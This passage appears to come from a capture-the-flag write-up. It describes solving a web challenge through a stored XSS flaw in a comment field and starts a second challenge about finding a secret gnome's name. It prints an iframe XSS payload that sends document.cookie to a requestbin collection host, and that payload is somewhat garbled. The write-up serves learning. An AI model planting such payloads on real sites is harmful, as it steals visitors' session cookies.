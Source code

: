 By reading the source code, I noticed that the field related to the comment was the one vulnerable to a stored XSS attack.&#x20;

<figure><img src="../.gitbook/assets/image (99).png" alt=""><figcaption><p>comment section</p></figcaption></figure>

I used the request bin to check the result of the following script (the '`\n`' are important). The challenge was solved.

> \<iframe src ="javascript::document.location='https://requestbin.concat(document.cookie.match(UPesTdUq'=(\[^;]\*)')\[1]);" >Hover over me!\</iframe >

## Web7: The Gnomes Secret Revenge

The goal of the challenge was to found the name of the secret gnome (that is the flag), given the name of gnome '`Nathan`'.

<figure><img src="../.gitbook/assets/image (95).png" alt=""><figcaption><p>homepage</p></figcaption></figure>

